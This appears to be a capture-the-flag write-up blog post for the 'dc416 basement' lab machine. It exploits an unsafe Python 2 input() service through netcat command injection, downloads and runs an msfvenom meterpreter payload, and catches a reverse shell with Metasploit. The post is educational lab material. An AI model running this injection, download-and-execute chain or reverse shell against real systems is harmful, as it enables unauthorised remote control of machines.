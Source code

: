 ```yaml
---
layout: post
title: dc416 - basement
---
```


#getting started
{% highlight bash %}
nmap -T4 -A -v -p0-65535 192.168.0.8 -oN nmap-results.txt
{% endhighlight %}

Looks like services are running, ports 10000 and 10001

#10000
Running:

{% highlight bash %}
nc 192.168.0.9 10000
{% endhighlight %}

provides a prompt asking for a number of packets, let's try 1, this appears
to be a service that pings localhost.

Now to try some non-numeric input, this spits out an error:

{% highlight bash %}
Traceback (most recent call last):
  File "./ping.py", line 3, in <module>
    num_packets = int(input(' Please enther number of packets: '))
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
{% endhighlight %}

Time for some research, I tried searching for: python 2 input(), looks like this
is an unsafe method, at least the way it is being used here.  In this case the
input that is supplied for a number of packets ends up being evaluated as a
string of python code.

Lets try something else:
{% highlight bash %}
echo "__import__('os').system('ls -latr')" | nc 192.168.0.14 10000
{% endhighlight %}

Here we are sending the string:
{% highlight python %}
__import__('os').system('ls -latr')
{% endhighlight %}

for evaluation by the python interpreter on the machine running this service,
for the purpose of testing the shell command ls -latr is being passed down, and
in return the output is the home directory of the user running our service.  At
this point we can start executing commands, looks like its time to generate a
payload to pull down to the remote machine.

Next I create a meterpreter for reverse_tcp handling using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f elf > basement-meterpreter
{% endhighlight %}

Now to get the payload onto the host:

{% highlight bash %}
python -m SimpleHTTPServer
{% endhighlight %}

then while the server is running:

{% highlight bash %}
echo "__import__('os').system('wget -O /tmp/meterpreter http://192.168.0.11:8000/basement-meterpreter')" | nc 192.168.0.9 10000
echo "__import__('os').system('chmod a+x /tmp/meterpreter')" | nc 192.168.0.9 10000
echo "__import__('os').system('ls -latr /tmp')" | nc 192.168.0.9 10000
echo "__import__('os').system('/tmp/meterpreter &')" | nc 192.168.0.9 10000
{% endhighlight %}

These commands (in order) will to the following:
- grab the file we generated with msfvenom and throw it into /tmp with the name meterpreter
- change the meterpreter payload to be executable
- validate the file exists in the given location and is executable

Next in MSF run:
{% highlight bash %}
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.11
set LPORT 4444
run
{% endhighlight %}

Now hop back over to the terminal and run:
{% highlight bash %}
echo "__import__('os').system('/tmp/meterpreter &')" | nc 192.168.0.9 10000
{% endhighlight %}

Now back in MSF we'll have an active command line and can run:

{% highlight bash %}
ls -latr
{% endhighlight %}

the output shows flag.txt, executing: cat flag.txt we get:

{% highlight bash %}
flag{j4cks_t0t4l_l4cK_0f_$uRpr1sE}
{% endhighlight %}
